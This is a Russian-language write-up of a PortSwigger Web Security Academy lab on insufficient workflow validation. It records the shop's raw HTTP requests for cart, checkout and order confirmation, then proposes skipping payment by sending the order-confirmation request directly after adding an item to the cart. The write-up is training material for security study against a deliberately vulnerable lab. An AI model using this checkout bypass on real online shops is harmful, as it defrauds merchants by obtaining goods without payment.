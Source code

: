 ```yaml
---
title: "Insufficient workflow validation"
date: 2025-10-30
tags: [web, writeup]  
categories: [PortSwigger]
tagline: ""
header:
  overlay_image: /assets/images/IMG_writeups/IMG_PortSwigger/ps_logo.webp
  overlay_filter: 0.5 
  overlay_color: "#fff"
  actions:
    - label: "Lab PortSwigger"
      url: "https://portswigger.net/web-security/logic-flaws/examples/lab-logic-flaws-insufficient-workflow-validation"
classes: wide
---
```


Для прохождения нужно купить `Lightweight l33t leather jacket`. Для входа в учетную запись есть креды `winere`:`peter`.

```
https://0ae700e003e905dd811b3f0e00ff0002.web-security-academy.net/
```

# Solution

Зайду в личный кабинет, попробую собрать различные варианты запросов.

Добавление товара в корзину:

```http
POST /cart HTTP/2
Host: 0ae700e003e905dd811b3f0e00ff0002.web-security-academy.net
Cookie: session=ii4c9RiowvaXnZktNrhoLC5gpwZUGoPc
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:144.0) Gecko/20100101 Firefox/144.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: https://0ae700e003e905dd811b3f0e00ff0002.web-security-academy.net/product?productId=14
Content-Type: application/x-www-form-urlencoded
Content-Length: 37
Origin: https://0ae700e003e905dd811b3f0e00ff0002.web-security-academy.net
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Priority: u=0, i
Te: trailers

productId=14&redir=PRODUCT&quantity=1
```

Покупка товара:

```http
POST /cart/checkout HTTP/2
Host: 0ae700e003e905dd811b3f0e00ff0002.web-security-academy.net
Cookie: session=ii4c9RiowvaXnZktNrhoLC5gpwZUGoPc
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:144.0) Gecko/20100101 Firefox/144.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: https://0ae700e003e905dd811b3f0e00ff0002.web-security-academy.net/cart
Content-Type: application/x-www-form-urlencoded
Content-Length: 37
Origin: https://0ae700e003e905dd811b3f0e00ff0002.web-security-academy.net
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Priority: u=0, i
Te: trailers

csrf=i4U0M2bJTCiBDeyJ1MHmC3qVQbVxjxUR
```

Подтверждение заказа:

```http
GET /cart/order-confirmation?order-confirmed=true HTTP/2
Host: 0ae700e003e905dd811b3f0e00ff0002.web-security-academy.net
Cookie: session=ii4c9RiowvaXnZktNrhoLC5gpwZUGoPc
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:144.0) Gecko/20100101 Firefox/144.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: https://0ae700e003e905dd811b3f0e00ff0002.web-security-academy.net/cart
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Priority: u=0, i
Te: trailers
```

Хмм. Не вижу ни одной причины, чтобы не попробовать добавить жилет в корзину, а затем не отправить запрос на `/cart/order-confirmation`:

![IMG](/assets/images/IMG_writeups/IMG_PortSwigger/IMG_blv/IMG_insufficient-workflow-validation/1.png){: height="200" .align-center}
